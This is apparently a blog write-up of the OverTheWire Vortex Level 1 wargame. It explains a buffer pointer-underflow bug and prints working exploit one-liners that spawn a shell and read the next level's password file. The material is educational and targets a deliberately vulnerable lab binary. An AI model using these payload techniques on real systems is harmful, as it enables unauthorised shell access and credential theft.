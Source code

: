 ```yaml
---
title:  "[CTF] OverTheWire Vortex Level 1"
categories: [CTF, OverTheWire]
---
```


![Logo](/assets/images/vortex1.png)

## Context
The level can be found [here](http://overthewire.org/wargames/vortex/vortex1.html). After analyzing the C source code, we understand the flow and information needed to exploit:
* There's a 512 bytes buffer and a pointer _`ptr`_ that initially points in the middle of the buffer.
* For every **\** character read, the pointer is decremented.
* For every character read which is different than **\n** and **\** we have the possibility to set a byte in _`ptr`_: 
```c
    ptr++[0] = x;
````
* The _`e()`_ macro spawns an [interactive bash shell](http://www.gnu.org/software/bash/manual/bashref.html#Interactive-Shells) (**-i** parameter) and also replaces the image of the current process with _`/bin/sh`_, through _`execlp`_ function. Very important to remember:

<blockquote>
  <p>By default, file descriptors remain open across an execve()</p>
  <cite><a target="_blank" href="http://linux.die.net/man/2/execve">execve(2) - Linux man page</a>
</cite> </blockquote>

* The condition to trigger shell execution can be easily accomplished, given the third point.

Taken these into account, let's try to launch a shell and execute a command:
```bash
$ python -c 'print "\\"*257 + "\xca" + "A" + "\nwhoami"' | ./vortex1
```

The shell exits immediately, without executing the command. Now it's time to check what happens, how bash handles _`EOF`_.

### Method 1
We can actually find a very detailed explanation in this [blog post](http://byteninja.blogspot.ro/2011/09/overthewireorg-vortex-level1.html). The idea is that  when _`execlp`_ is executed, the image of the current process is replaced with  _`/bin/sh`_. But _`execlp`_ doesn't clear STDIN.  So the unparsed input it's still there. The shell is exiting immediately, because it receives an EOF. To overcome this, something in the bash manual comes to help: 
> When invoked as an interactive shell with the name sh, bash looks for  the variable  ENV,  expands  its value if it is defined, and uses the expanded value as the name of a file to read and execute.

So we create a new file containing our commands, set the _`ENV`_ variable before and get the password:
```bash
$ vi /tmp/cmd2
cat /etc/vortex_pass/vortex2
 
$ python -c 'print "\\"*257 + "\xca" + "A"' | env ENV=/tmp/cmd2 /vortex/vortex1
```

### Method 2

Some solutions report that a long string before the command causes the command to be actually executed, without an apparent explanation, like this for example:
```bash
$ python -c 'print  "\\"*0x101+"\xcaA\n"+"A"*4000+"\nwhoami\ncat /etc/vortex_pass/vortex2"' |/vortex/vortex1
$ sh: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA: not found
$ vortex2
******
```


To understand this, the following [article](http://www.pixelbeat.org/programming/stdio_buffering/) explains the **_buffering applied to standard streams_**, with an example with two processes forked  by bash with a pipe between them, very similar with our case:
```bash
$ command1 | command2
```
The idea is that the kernel uses 4096 bytes circular buffers (for stdin, stdout, and pipe). Being circular, the 4000 characters together with the existent content fill the buffer, and the next part of input does not contain an EOF and commands are executed. Actually, instead of the 4000 "A"s, we just need 4096-257-2-1=3836 extra characters:
```bash
$ python -c 'print  "\\"*0x101+"\xcaA\n"+"A"*3836+"\nwhoami\ncat /etc/vortex_pass/vortex2"' |/vortex/vortex1
$ $ vortex2
$ ******
```
